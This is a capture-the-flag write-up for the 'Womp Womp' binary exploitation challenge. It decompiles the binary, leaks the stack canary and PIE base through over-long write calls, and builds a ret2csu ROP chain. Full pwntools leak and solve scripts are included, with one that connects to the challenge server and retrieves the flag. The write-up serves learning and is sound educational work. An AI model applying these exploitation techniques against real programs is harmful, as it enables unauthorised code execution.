


Womp Womp is a pwn/binary exploitation challenges where we're given a binary and have to leak addresses to bypass PIE and canary protections. After that, we have to utilize a ROP technique called ret2csu which I was not previously aware about! It was a very fun technique to learn about and explore. Shotout to the [EHAX](https://ehax.in/) team for hosting a great CTF and the challenge authors nrg & the_moon_guy.

Although I'm still a beginer in pwn, writing about these challenges helps deepen my understanding of the techniques used, so expect more writeups in the future in this category. 


## Binary Checks


We're given a binary along with a shared object library which it links to:

```bash
pwn@docker:/ctf$ ls -lh
total 28K
-rwxrwxrwx 1 root root  13K Feb 27 17:42 challenge
-rwxrwxrwx 1 root root 8.3K Feb 27 17:42 libcoreio.so
pwn@docker:/ctf$ ldd challenge
        linux-vdso.so.1 (0x00007fffd65f7000)
        libcoreio.so => ./libcoreio.so (0x000073c56b400000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x000073c56b1d7000)
        /lib64/ld-linux-x86-64.so.2 (0x000073c56baa8000)
```

Protections of the binary:

```bash
pwn@docker:/ctf$ checksec --file=challenge
[*] '/ctf/challenge'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RPATH:      b'.'
    Stripped:    No
```

Every modern binary mitigation is turned on. NX/DEP means we cannot execute shellcode, Full RELRO means we cannot overwrite GOT entries, we must leak a canary/secret value for buffer overflows, and all addresses are randomized when starting a new process (PIE).

## Bypassing PIE and Canary

To reverse engineer the vulnerabilities I check out Ghidra's decompilation. Here's the relevant functions that we need to analyze from the challenge binary:

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  bootstrap_state();
  write(1,"=== Womp Womp v1.0 ===\n",0x17);
  write(1,"[1] Submit log entry\n",0x15);
  write(1,"[2] Process log entry\n",0x16);
  submit_note();
  review_note();
  finalize_entry();
  return 0;
}
```

```c
void submit_note(void)

{
  long in_FS_OFFSET;
  undefined1 local_58 [0x48];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"Input log entry: ",0x11);
  read(0,local_58,0x40);
  write(1,"[LOG] Entry received: ",0x16);
  write(1,local_58,0x58);
  write(1,&DAT_00100ced,1);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```c
void review_note(void)

{
  long in_FS_OFFSET;
  undefined1 local_38 [0x20];
  code *local_18;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = finalize_note;
  write(1,"Input processing note: ",0x17);
  read(0,local_38,0x20);
  write(1,"[PROC] Processing: ",0x13);
  write(1,local_38,0x30);
  write(1,&DAT_00100ced,1);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```c
void finalize_entry(void)

{
  long in_FS_OFFSET;
  undefined1 auStack_50 [64];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  write(1,"Send final payload: ",0x14);
  read(0,auStack_50,400);
  write(1,"[VULN] Done.\n",0xd);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Here's the only function we need to know from `libcoreio.so`

```c
void emit_report(long param_1,long param_2,long param_3)

{
  int __fd;
  size_t __n;
  long in_FS_OFFSET;
  undefined8 local_118;
  undefined8 local_110;
  undefined2 local_108;
  undefined8 local_10;

  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  if (((param_1 == L'\xdeadbeef') && (param_2 == L'\xcafebabe')) && (param_3 == L'\xd00df00d')) {
    __fd = open("flag.txt",0);
    if (__fd < 0) {
      local_118 = 0x7478742e67616c66;
      local_110 = 0x676e697373696d20;
      local_108 = 10;
      write(1,&local_118,0x11);
                    /* WARNING: Subroutine does not return */
      _exit(1);
    }
    __n = read(__fd,&local_118,0x100);
    if (0 < (long)__n) {
      write(1,&local_118,__n);
    }
    close(__fd);
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  local_118 = 0x2064696c61766e49;
  local_110 = 0x2e74736575716572;
  local_108 = 10;
  write(1,&local_118,0x11);
                    /* WARNING: Subroutine does not return */
  _exit(1);
}
```

To get the flag we'll need to call `emit_report()` where we pass in the arguments `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d`.

We're given a simple program where it takes in 3 inputs and it seems to be returning some random values every time

```bash
pwn@docker:/ctf$ ./challenge
=== Womp Womp v1.0 ===
[1] Submit log entry
[2] Process log entry
Input log entry: 1
[LOG] Entry received: 1
������������������������h/KG���p1t���%���1tp
Input processing note: 1
[PROC] Processing: 1
���������������%���1`���?Z���h/KG���
Send final payload: 1
[VULN] Done.
pwn@docker:/ctf$ ./challenge
=== Womp Womp v1.0 ===
[1] Submit log entry
[2] Process log entry
Input log entry: 2
[LOG] Entry received: 2
���<Gp������<Gp���&���<Gp�+�<Gp^������_������������@���>^������
Input processing note: 2
[PROC] Processing: 2
���<Gp�+�<Gp^���������   ���s���a������@���>
Send final payload: 2
[VULN] Done.
```


There's a clear buffer overflow inside of `finalize_entry()` since the program allows 400 bytes of input into `auStack_50` which only has room for 64 bytes. To leverage this vulnerability, we'll need to bypass the stack canary and PIE mitigations.

We can confirm the vulnerability by sending arbitrary input for the first 2 inputs, then send a large string. e.g.

```bash
pwn@docker:/ctf$ ./challenge
=== Womp Womp v1.0 ===
[1] Submit log entry
[2] Process log entry
Input log entry: 1
[LOG] Entry received: 1
���~E�w���fE�w���&E�w������eE�w�~1���(E~1������������������G �~1���
Input processing note: a
[PROC] Processing: a
E�w������eE�w�~1������     ���pMX���������������G
Send final payload: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[VULN] Done.
*** stack smashing detected ***: terminated
Aborted
```

I got the stack smashing message because of the canary protection.

To leak the canary, we'll need to use the vulnerability inside of the `submit_note()` where it leaks out the value of the stack canary every time since it writes to stdout passed `local_58`'s buffer:

```c
write(1,local_58,0x58);
```

Since the `local_58` buffer can only hold up to 0x48 bytes, the write syscall leaks about 0x18 bytes of information from adjacent stack addresses

Here's a diagram of the stack inside of that function to visualize what's going on:

```
[ local_58 (0x48 bytes) ]
[ canary (0x8 bytes)    ]
[ saved rbp (0x8)       ]
[ return addr (0x8)     ]
```

0x58 - 0x40 = 0x18 bytes of stack leak which will include:
- 8 Bytes of unused local_58
- Stack Canary (8 bytes)
- saved RBP (8 bytes)

Next, to bypass PIE, we leverage the same kind of vulnerability inside of `review_note()` which leaks other local variables on the stack.

Inside of `review_note`, `local_18` is a pointer to the function on the stack, if we're able to leak that address, then we can calculate the PIE base

Here's a diagram of that function:

```
[ local_38 (0x20 bytes)        ]
[ local_18 (0x8 bytes)         ]
[ canary (0x8 bytes)           ]
[ saved rbp (0x8 bytes)        ]
[ return addr (0x8 bytes)      ]
```

0x30 - 0x20 = 0x10 bytes of stack leak which will include:
- local_18 (pointer to `finalize_note`)
- Stack canary

Since the stack canary for a single process is the same throughout all functions, we only need to use the vulnerability inside of `review_note()` to bypass the canary and PIE. For now, we don't need to use any leakage from `submit_note()` but we'll need to use it later on.


Here's a pwntools script to automate the process of getting the PIE base and canary:

```python
from pwn import *
context.binary = elf = ELF("./challenge", checksec=False)
context.log_level = "info"
p = process("./challenge")

# Step 1: Submit log entry
p.recvuntil(b"Input log entry: ")
p.sendline(b"A")
p.recvuntil(b"[LOG] Entry received:")
p.recvline()

# Step 2: Process log entry (triggers the leak)
p.recvuntil(b"Input processing note: ")
p.sendline(b"B")   # content doesn't matter for leak
p.recvuntil(b"[PROC] Processing: ")
leak = p.recvn(0x30)
p.recvn(1) # trailing newline

leaked_fn = u64(leak[0x20:0x28])
canary    = u64(leak[0x28:0x30])
pie_base  = leaked_fn - elf.symbols["finalize_note"]

log.info(f"canary     = {canary:#x}")
log.info(f"leaked_fn  = {leaked_fn:#x}")
log.info(f"pie_base   = {pie_base:#x}")

p.close()
```

```bash
pwn@docker:/ctf$ python3 leak.py
[+] Starting local process './challenge': pid 16
[*] canary     = 0x79b06ecc8e935700
[*] leaked_fn  = 0x60597e600980
[*] pie_base   = 0x60597e600000
[*] Stopped process './challenge' (pid 16)
pwn@docker:/ctf$ python3 leak.py
[+] Starting local process './challenge': pid 20
[*] canary     = 0x2e7a01dc61b1c000
[*] leaked_fn  = 0x57389a400980
[*] pie_base   = 0x57389a400000
[*] Stopped process './challenge' (pid 20)
pwn@docker:/ctf$ python3 leak.py
[+] Starting local process './challenge': pid 24
[*] canary     = 0x93660cf94d7c1f00
[*] leaked_fn  = 0x5a2be1400980
[*] pie_base   = 0x5a2be1400000
[*] Stopped process './challenge' (pid 24)
```


We can confirm we have the correct leakages because subtracting the static offset of `finalize_note()` from the leaked function pointer yields a page-aligned PIE base (lower 12 bits equal to zero), and the leaked canary matches across both functions within the same process and ends with a null byte (`canary & 0xff == 0`), which is the expected structure of a stack canary on x86_64 Linux.

## ret2csu

After overcoming the protections of the binary our final goal is to use the buffer overflow when sending our final payload to return to the `emit_report()` function with the three specified arguments.

Normally, I would jump to an address passed those checks, however `emit_report()` is located in a shared object which is at a completely separate address by ASLR.

We'll need to leverage [ROP](https://help.eset.com/glossary/en-US/rop_attack.html) (return oriented programming) to set `$rdi` to 0xdeadbeefdeadbeef, `$rsi` to 0xcafebabecafebabe and `$rdx` to 0xd00df00dd00df00d. Simple enough right?

```bash
pwn@docker:/ctf$ ropper --file=challenge --search="pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: challenge
0x0000000000000ca3: pop rdi; ret;

pwn@docker:/ctf$ ropper --file=challenge --search="pop rsi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rsi

[INFO] File: challenge
0x0000000000000ca1: pop rsi; pop r15; ret;

pwn@docker:/ctf$ ropper --file=challenge --search="pop rdx"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx

pwn@docker:/ctf$ ropper --file=challenge | grep -i rdx
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
```


We have gadgets we can utilize for setting our first 2 arguments, however there's no such gadget existing for `$rdx`

I was stuck at this point for a bit, but upon doing some research, I learned that we can use a ROP technique called **ret2csu** also known as "Universal Gadget ROP" that was introduced at Black Hat Asia in 2018.

The basic gist of this technique is that when a binary is compiled with glibc, it contains a function called `__libc_csu_init()` which includes gadgets that tools like Ropgadget and Ropper can't find since they're separated by call instructions rather than ret. If you want to learn more about this technique here's a link to the original paper which explains it better than I could: [ret2csu original paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)


```asm
pwndbg> disass __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000000c40 <+0>:     push   r15
   0x0000000000000c42 <+2>:     push   r14
   0x0000000000000c44 <+4>:     mov    r15d,edi
   0x0000000000000c47 <+7>:     push   r13
   0x0000000000000c49 <+9>:     push   r12
   0x0000000000000c4b <+11>:    lea    r12,[rip+0x201146]        # 0x201d98
   0x0000000000000c52 <+18>:    push   rbp
   0x0000000000000c53 <+19>:    lea    rbp,[rip+0x201146]        # 0x201da0
   0x0000000000000c5a <+26>:    push   rbx
   0x0000000000000c5b <+27>:    mov    r14,rsi
   0x0000000000000c5e <+30>:    mov    r13,rdx
   0x0000000000000c61 <+33>:    sub    rbp,r12
   0x0000000000000c64 <+36>:    sub    rsp,0x8
   0x0000000000000c68 <+40>:    sar    rbp,0x3
   0x0000000000000c6c <+44>:    call   0x7e0 <_init>
   0x0000000000000c71 <+49>:    test   rbp,rbp
   0x0000000000000c74 <+52>:    je     0xc96 <__libc_csu_init+86>
   0x0000000000000c76 <+54>:    xor    ebx,ebx
   0x0000000000000c78 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000000c80 <+64>:    mov    rdx,r13
   0x0000000000000c83 <+67>:    mov    rsi,r14
   0x0000000000000c86 <+70>:    mov    edi,r15d
   0x0000000000000c89 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x0000000000000c8d <+77>:    add    rbx,0x1
   0x0000000000000c91 <+81>:    cmp    rbx,rbp
   0x0000000000000c94 <+84>:    jne    0xc80 <__libc_csu_init+64>
   0x0000000000000c96 <+86>:    add    rsp,0x8
   0x0000000000000c9a <+90>:    pop    rbx
   0x0000000000000c9b <+91>:    pop    rbp
   0x0000000000000c9c <+92>:    pop    r12
   0x0000000000000c9e <+94>:    pop    r13
   0x0000000000000ca0 <+96>:    pop    r14
   0x0000000000000ca2 <+98>:    pop    r15
   0x0000000000000ca4 <+100>:   ret
End of assembler dump.
```

Here's Binjas graph view which helped me visualize it better:




The instruction we care about is at `0xc80`, which moves the value of `$r13` into `$rdx`. But to control what's in `$r13`, we first need to use the gadget starting at `0xc9a`, which gives us a pop sequence to load six registers including `$r13`.

However, after the call at `0xc80`, the code increments `$rbx` and checks if it equals `rbp`. If they don't match, execution jumps back to `0xc80` and we're stuck in an infinite loop.

Since `$rbx` is one of the registers popped in the sequence starting at `0xc9a`, we first set it to 0 and `rbp` to 1 in our first gadget, so after the single call, `$rbx` becomes 1, which will make the loop exit cleanly.

Another constraint is the call dereference of `$r12` at `0xc89`, that reads a function pointer from that memory address, and jumps to it. We'll want to plant a return gadget address at the start of our buffer, point `$r12` at that location, and the call simply hits ret and returns straight back into the chain. To do this, I leveraged the leak from `submit_note()` and calculated the offset to a return gadget.

Here's a full visualization of the ROP chain:



After we successfully set the value of `$rdx`, the rest of the ROP chain is pretty trivial since we're given gadgets to set `$rdi` and `$rsi` which can be found from Ropper and Ropgadget.

## Solve Script and Flag

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge", checksec=False)

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path], env={"LD_LIBRARY_PATH": "."})
        if args.GDB:
            gdb.attach(r)
    else:
        r = remote("20.244.7.184", 1337)

    return r


def main():
    r = conn()
    rop = ROP(exe)

    # Step 1: Submit log entry and leak main's rbp
    r.recvuntil(b"Input log entry: ")
    r.send(b"A" * 0x40)
    r.recvuntil(b"[LOG] Entry received: ")
    leak = r.recvn(0x58)
    r.recvn(1)

    M = u64(leak[0x50:0x58])
    log.info(f"Main RBP: {M:#x}")

    # Step 2: Process log entry and leak PIE base
    r.recvuntil(b"Input processing note: ")
    r.send(b"B" * 0x20)
    r.recvuntil(b"[PROC] Processing: ")
    leak = r.recvn(0x30)
    r.recvn(1)

    leaked_fn = u64(leak[0x20:0x28])
    canary    = u64(leak[0x28:0x30])
    pie_base  = leaked_fn - exe.symbols["finalize_note"]

    log.info(f"canary\t= {canary:#x}")
    log.info(f"leaked_fn\t= {leaked_fn:#x}")
    log.info(f"pie_base\t= {pie_base:#x}")

    # Gadget addresses
    win_function = exe.sym["emit_report"] + pie_base
    pop_rdi      = rop.rdi.address + pie_base
    pop_rsi      = rop.rsi.address + pie_base
    pop_rdx_g1   = 0xc9a + pie_base
    pop_rdx_g2   = 0xc80 + pie_base
    ret_gadget   = 0x7f9 + pie_base
    buf_addr     = M - 0x58

    log.info(f"pop_rdi\t= {pop_rdi:#x}")
    log.info(f"pop_rsi\t= {pop_rsi:#x}")

    # Step 3: Build and send ROP chain
    payload = flat(
        # First 8 bytes of buffer = function pointer for call [r12] in gadget2
        ret_gadget,
        b"A" * 0x38,        # padding to fill remaining bytes before canary
        canary,

        p64(0),             # fake saved RBP

        # Gadget1: loads 6 registers then rets into gadget2
        pop_rdx_g1,
        0,                  # rbx = 0
        1,                  # rbp = 1
        buf_addr,           # r12 -> points to ret_gadget at buf start
        0xd00df00dd00df00d, # r13 -> rdx
        0,                  # r14 junk
        0,                  # r15 junk

        # Gadget2: mov rdx,r13; call [r12] (calls ret gadget, which rets cleanly)
        pop_rdx_g2,

        # CSU epilogue: add rsp,8 + 6 pops (7 slots total)
        0, 0, 0, 0, 0, 0, 0,

        # Set rdi and rsi then call win
        pop_rdi,
        0xdeadbeefdeadbeef,
        pop_rsi,
        0xcafebabecafebabe,
        0,                  # r15 junk (pop rsi gadget also pops r15)
        win_function,
    )

    r.recvuntil(b"Send final payload: ")
    r.send(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```


```bash
pwn@docker:/ctf$ python3 solve.py
[+] Opening connection to 20.244.7.184 on port 1337: Done
[*] Loading gadgets for '/ctf/challenge'
[*] Main RBP: 0x7fff314cc860
[*] canary      = 0x74e579cdfe2c1700
[*] leaked_fn   = 0x564b9e400980
[*] pie_base    = 0x564b9e400000
[*] pop_rdi     = 0x564b9e400ca3
[*] pop_rsi     = 0x564b9e400ca1
[*] Switching to interactive mode
[VULN] Done.
EH4X{r0pp3d_th3_w0mp3d}
[*] Got EOF while reading in interactive
```

Flag: `EH4X{r0pp3d_th3_w0mp3d}`
